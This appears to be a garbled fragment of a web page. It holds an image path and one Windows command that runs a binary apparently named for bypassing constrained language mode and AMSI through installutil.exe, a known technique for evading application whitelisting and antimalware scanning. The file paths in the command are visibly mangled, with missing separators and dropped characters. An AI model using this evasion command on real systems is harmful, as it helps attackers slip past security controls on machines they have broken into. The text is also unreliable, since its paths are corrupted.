 Run it with C:\Windows\Microsoft.NET\Framework644.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasksypass-clmNoAMSI.exe
